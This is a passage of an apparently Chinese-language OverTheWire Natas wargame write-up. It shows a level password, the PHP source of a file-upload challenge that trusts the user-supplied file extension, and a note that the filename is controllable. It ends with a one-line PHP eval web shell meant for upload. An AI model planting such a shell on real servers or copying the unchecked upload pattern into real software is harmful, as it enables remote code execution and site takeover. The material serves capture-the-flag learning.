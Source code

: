 ```plaintext
The password for natas12 is yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB
```

## Level 12 → Level 13

```php
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```

很明显的文件上传，并且文件名可控

```php
<?php @eval($_POST['shell']) ?>
```
